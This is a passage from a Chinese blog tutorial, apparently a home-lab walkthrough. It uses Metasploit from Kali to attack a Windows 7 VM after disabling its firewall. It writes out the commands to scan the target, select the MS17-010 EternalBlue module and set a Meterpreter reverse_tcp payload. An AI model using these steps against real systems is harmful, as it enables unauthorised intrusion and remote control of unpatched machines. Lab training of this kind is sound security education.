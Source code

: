 ●然后关闭win7的防火墙：

  ![](https://img-blog.csdnimg.cn/20190707143637718.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9jaGVuemh1by5ibG9nLmNzZG4ubmV0,size_16,color_FFFFFF,t_70)

关闭防火墙

  ![](https://img-blog.csdnimg.cn/20190707143641202.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9jaGVuemh1by5ibG9nLmNzZG4ubmV0,size_16,color_FFFFFF,t_70)

●查看win7的ip地址：192.168.163.130


●尝试win7 ping kali：

  ![](https://img-blog.csdnimg.cn/2019070714365546.png)

●用kali ping win7：

  ![]()

 

都成功了。

 

●现在尝试一下漏洞扫描：

 

**set  RHOSTS  192.168.163.130**

 

**exploit**

  ![](https://img-blog.csdnimg.cn/20190707143701584.png)

这里有+号的就是可能存在漏洞的主机。【可能是因为我把win7防火墙关了】

 

**3****）漏洞利用模块**

 

●然后就可以去利用漏洞攻击了，选择漏洞攻击模块：

**use exploit/windows/smb/ms17_010_eternalblue   **

 

●查看这个漏洞的信息：info

  ![](https://img-blog.csdnimg.cn/20190707143708263.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9jaGVuemh1by5ibG9nLmNzZG4ubmV0,size_16,color_FFFFFF,t_70)

●查看可攻击的系统平台，这个命令显示该攻击模块针对哪些特定操作系统版本、语言版本的系统：show targets

  ![](https://img-blog.csdnimg.cn/20190707143713194.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9jaGVuemh1by5ibG9nLmNzZG4ubmV0,size_16,color_FFFFFF,t_70)

●查看攻击载荷：show  payloads
 ![](https://img-blog.csdnimg.cn/20190707143719583.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9jaGVuemh1by5ibG9nLmNzZG4ubmV0,size_16,color_FFFFFF,t_70)

●设置攻击载荷：set payload windows/x64/meterpreter/reverse_tcp
 ![](https://img-blog.csdnimg.cn/20190707143738151.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9jaGVuemh1by5ibG9nLmNzZG4ubmV0,size_16,color_FFFFFF,t_70)
